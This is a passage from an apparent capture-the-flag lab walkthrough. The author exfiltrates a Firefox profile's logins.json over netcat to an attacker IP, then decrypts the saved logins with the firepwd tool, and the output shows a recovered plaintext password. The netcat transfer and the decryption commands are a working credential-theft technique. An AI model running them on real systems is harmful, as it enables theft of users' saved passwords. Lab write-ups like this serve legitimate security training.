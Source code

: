 Repeat for the second file. Start another nc listening for the file on Kali:

```text
┌──(root💀kali)-[~/thm/glitch]
└─# nc -nlvp 4444 > logins.json
listening on [any] 4444 ...
```

Back to the glitch server and send the second file:

```text
user@ubuntu:~/.firefox/b5w4643p.default-release$ nc -nv 10.8.165.116 4444 < logins.json
ns.json10.8.165.116 4444 < login
Connection to 10.8.165.116 4444 port [tcp/*] succeeded!
```

Now let's grab the script from GitHub, and install requirements:

```text
┌──(root💀kali)-[~/thm/glitch]
└─# git clone https://github.com/lclevy/firepwd.git
Cloning into 'firepwd'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 88 (delta 2), reused 1 (delta 0), pack-reused 80
Receiving objects: 100% (88/88), 238.50 KiB | 2.51 MiB/s, done.
Resolving deltas: 100% (41/41), done.

┌──(root💀kali)-[~/thm/glitch]
└─# cd firepwd

┌──(root💀kali)-[~/thm/glitch/firepwd]
└─#  pip install -r requirements.txt
Collecting PyCryptodome>=3.9.0
  Downloading pycryptodome-3.10.1-cp35-abi3-manylinux2010_x86_64.whl (1.9 MB)
     |████████████████████████████████| 1.9 MB 4.0 MB/s 
Requirement already satisfied: pyasn1>=0.4.8 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 2)) (0.4.8)
Installing collected packages: PyCryptodome
Successfully installed PyCryptodome-3.10.1
```

Move our retrieved files in to the firepwd folder:

```text
┌──(root💀kali)-[~/thm/glitch]
└─# mv key4.db firepwd
┌──(root💀kali)-[~/thm/glitch]
└─# mv logins.json firepwd
```

Now we just run the script and it will automatically crack the files and give us an saved credentials:

```text
┌──(root💀kali)-[~/thm/glitch/firepwd]
└─# python3 firepwd.py
globalSalt: b'c6b3288fe32e9b2eaab7f9859afd603ee5438c7d'
<SNIP>
clearText b'5edc75d601dc4f2c9e5b9bbc49e6432c85dc0dbcfd1c6b1c0808080808080808'
decrypting login/password pairs
  https://glitch.thm:b'v0id',b'love_the_void'
```
